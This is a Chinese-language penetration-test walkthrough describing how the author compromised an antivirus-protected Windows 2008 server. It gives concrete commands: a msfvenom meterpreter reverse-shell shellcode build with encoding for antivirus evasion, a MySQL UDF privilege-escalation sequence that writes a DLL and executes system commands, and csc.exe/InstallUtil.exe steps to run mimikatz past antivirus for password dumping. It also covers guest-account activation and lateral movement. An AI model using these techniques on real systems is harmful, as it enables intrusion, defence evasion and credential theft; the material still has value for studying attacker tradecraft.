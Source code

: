 专注APT攻击与防御
https://micropoor.blogspot.com/

> 一次普通的项目，做完后，却陈思很久，遂打算一气合成把整个流程记录下来，此篇再一次的叮嘱我：分享便是我最好的老师。                              Micropoor
                                     
拿shell过程略过。（由于文章在项目实施结束形成，故部分无图或补图）

-------

**目标机背景：**
windows 2008 r2 x64位 360主动+360卫士+360杀毒+waf，目标机仅支持aspx。运行OAWeb服务（.net+mssql），并且是内网中其他服务器的数据库服务器（mysql数据库，不支持php，无.net for mysql 驱动）

![](media/7aa1856e57ac0ef987a329b1b89a4524.jpg)

**端口开放如下：**
![](media/d599b0029b2b161bc950e73a1c40b841.jpg)

**需要解决的第一个问题：payload**
由于目标机，安装某套装，payload一定是必须要解决的问题。当tasklist的时候，看到如下图几个进程的时候，第一反应就是需要做payload分离免杀。分离免杀主要分两大类，一类为第三方分离免杀，一类为自带安装分离免杀。文章中，采取了第三方分离免杀。
![](media/d2673aa4f5b1e77887ad446a0fdb2ec4.jpg)

**本地补图（由于项目在实施后形成该文章，故本地靶机补图）**

目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。无论是哪种，都是特别针对PE头文件的查杀。尤其是当payload文件越大的时候，特征越容易查杀。  

既然知道了目前的主流查杀方式，那么反制查杀，此篇采取特征与行为分离免杀。避免PE头文件，并且分离行为，与特征的综合免杀。适用于菜刀下等场景，也是我在基于windows下为了更稳定的一种常用手法。载入内存。

0x00:以msf为例：监听端口
![](media/19dfebd9ab71a4e0c11ac47a082a5d7a.jpg)

0x001：这里的payload不采取生成pe文件，而采取shellcode方式，来借助第三方直接加载到内存中。避免行为：
>   msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.5 lport=8080 -e x86/shikata_ga_nai -i 5 -f raw \> test.c
![](media/1a912494f05f8ca99edf268225e1a66f.jpg)

0x002:既然是shellcode方式的payload，那么需要借助第三方来启动，加载到内存。执行shellcode，自己写也不是很难，这里我借用一个github一个开源：
https://github.com/clinicallyinane/shellcode_launcher/
>   作者的话：建议大家自己写shellcode执行盒，相关代码网上非常成熟。

![](media/8b5a85a36c75eb412d5938adcb9c07f8.jpg)
生成的payload大小如下：476字节。
![](media/f4ca74ee9eebe883fdf665a892e0b058.jpg)

世界杀毒网：
![](media/663bc4d955c71bf9882c9a31761e0c14.jpg)

上线成功。
![](media/be28c1202684af6369757b813f4d9649.jpg)
而关于自带安装分离免杀，请参考我在公司Wiki上写的第六十九课时 **payload分离免杀思路第二季**
payload反弹到vps的msf上，我的权限仅仅如下。
![](media/19694da12bf09c5a567986db01872863.jpg)

**需要解决的第二个问题：提权**
参考主机背景图，184个补丁，以及某套装。遂放弃了exp提权。
* 原因1：需要更多的时间消耗在对反病毒软件对抗。
* 原因2：目标机补丁过多。需要消耗更多的时间
* 原因3：非常艰难的环境下，拿到了权限，不想因为某些exp导致蓝屏从而丢失权限。

开始翻阅目标机上的文件，以及搜集目标机的端口，服务，启动等一系列信息。发现目标机安装mysql，并与内网其中一台建立大量连接。mysql版本为5.1.49-community-log

下载目标机\*..MYI，\*.MYD，\*.frm，加载于本地mysql。得到目标机root密码
![](media/6344f895e12122941c872ea7ec30e968.jpg)

而目标机没有相关脚本环境连接mysql，到这里，可以有2个方向针对该问题作出解决
* 一：转发目标机端口到本地，从而操作mysql。
* 二：在非交互式下，完成mysql udf的提权。

为了减少目标主机的流量探测，以及维护来之不易的session，故选择了第二种方案。非交互式下，mysql提权。

命令行下，调用mysql是需要在启动一个mysql窗口，从而继续执行，而session下没有这样的条件。但mysql的 -e 参数 作为直接执行sql语句，从而不另启动窗口。而-e需要注意的事项，use database。

也就是所有参数需要mysql.xxxx
![](media/8ebbf18b920c921b26d200c0764b0e51.jpg)
如没有指定database，将会出现如下错误，而使用UNION，将不会有回显，一定出现问题，将会很难定位，故选择以mysql.x的方式指定。

![](media/d66e6280c230d7df5594034f2b120506.jpg)

大致流程如下：
```
mysql -uroot -pXXXXXX -e "create table mysql.a (cmd LONGBLOB);" 
mysql -uroot -pXXXXXX -e "insert into mysql.a (cmd) values (hex(load_file('D:\\XXXXXXXXXX\\mysql5\\lib\\plugin\\u.dll')));"
mysql -u root -pXXXXXX -e "SELECT unhex(cmd) FROM mysql.a INTO DUMPFILE 'D:/XXXXXXXXXX/mysql5/lib/plugin/uu.dll';"
mysql -uroot -pXXXXXX -e "CREATE FUNCTION shell RETURNS STRING SONAME 'uu.dll'" 
mysql -uroot -pXXXXXX -e "select shell('cmd','whoami');"
```
![](media/9937c23b9e70b9cdd717edaf8872424c.jpg)

**需要解决的第三个问题：登录服务器**

在有套装的环境下，默认拦截cmd下加帐号，而目前又无法抓取系统登录明文。mimikatz被查杀。cmd下调用powershell被拦截。遂选择激活guest帐号，并提升到administrators组，来临时登录目标机。
![](media/4eb174d39dbe43bc7d4428629d5398b0.jpg)

![](media/3455e7d1c707e61e18e8addd6e9cf92f.jpg)

**socks代理登录目标机：**
![](media/071c738c001832dabeda3cf1474eb585.jpg)

**需要解决的第四个问题：抓取目标机明文密码**

登录服务器后，目前依然不知道目标机的密码。这里有两种方向来解决该问题。

* 一：关闭我能关闭的套装，由于管理员没有注销登录。能关闭的有限。
* 二：分离免杀做mimikatz密码抓取

作者选择了第二种方案：

这里需要用到**csc.exe，与InstallUtil.exe**

关于两个文件默认安装位置：（注意x32，x64区别）
```
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
```
分别执行：
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe /keyfile:C:\Users\Johnn\Desktop\installutil.snk /unsafe
C:\Users\Johnn\Desktop\mimi.cs

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Johnn\Desktop\Micropoor.exe
```
![](media/18d0d45533111eb2d484ea1d82de9468.jpg)

![](media/69b5325b911756ed887ffd19523ae927.jpg)

**派生出的第五个问题：横向渗透**

关于第五个问题，本意并不是该篇幅所要讲述的，后续是搜集目标机的mssql，mysql，rdp 密码。搜集所在内网的拓扑，来辅助本次的横向扩展。便完成了本次的项目。
如需具体，请参考我在Wiki上的系列教程78，79，12，13，71课时。
![](media/eccebe5ce07798d977d07e4c3c0d6e8b.jpg)

**后者的话：**

本次的整个流程，并没有遇到太多的问题，仅仅是把几个知识点的串联起来，形成的一个完整的渗透。也许你了解知识点1，也了解知识点2，还了解知识点3等等。但是一次完整的项目是离不开每一个知识点的串联与灵活运用。这应该是每一个信息安全从业人员值得思考的问题。

**在每次分享的同时，深深发现，原来分享，才是我最好的老师。**


